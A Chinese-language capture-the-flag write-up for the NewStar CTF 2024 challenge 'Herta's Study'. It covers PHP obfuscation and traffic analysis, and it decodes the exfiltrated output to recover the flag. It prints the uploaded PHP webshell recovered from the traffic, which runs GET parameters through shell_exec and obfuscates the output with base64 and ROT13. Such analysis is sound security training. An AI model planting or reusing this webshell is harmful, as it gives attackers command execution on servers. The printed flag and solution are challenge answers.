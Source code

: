 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```

<script setup>
import Container from '@/components/docs/Container.vue'
</script>

# Herta's Study

<Container type='tip'>
本题考点：PHP 混淆，流量分析
</Container>

建议配合 unknown 师傅的前两道流量题食用

第七条流量是上传的 PHP 木马

```php
<?php
    $payload=$_GET['payload'];
    $payload=shell_exec($payload);
    $bbb=create_function(
        base64_decode('J'.str_rot13('T').'5z'),
        base64_decode('JG5zPWJhc2U2NF9lbmNvZGUoJG5zKTsNCmZvcigkaT0wOyRpPHN0cmxlbigkbnMpOyRp
        Kz0xKXsNCiAgICBpZigkaSUy'.str_rot13('CG0kXKfAPvNtVPNtVPNtWT5mJlEcKG1m').'dHJfcm90MTMoJG5zWyRpXSk7DQo
        gICAgfQ0KfQ0KcmV0dXJuICRuczs==')
    );
    echo $bbb($payload);
?>
```

可以搜索一下 `create_funtion()` 函数，解除混淆后得到加密代码

```php
$ns = base64_encode($ns);
for ($i = 0; $i < strlen($ns); $i += 1){
    if ($i % 2 == 1) {
        $ns[$i] = str_rot13($ns[$i]);
    }
}
return $ns;
```

就是 Base64 后把奇数位 ROT13

解码反过来就行（第38条，`f.txt` 里的是真 flag，另一个是假 flag）

```php
<?php
$ns = 'ZzxuZ3tmSQNsaGRsUmBsNzVOdKQkZaVZLa0tCt==';
for ($i = 0; $i < strlen($ns); $i += 1){
    if ($i % 2 == 1) {
        $ns[$i] = str_rot13($ns[$i]);
    }
}
echo base64_decode($ns);
// flag{sH3_i4_S0_6eAut1fuL.}
?>
```
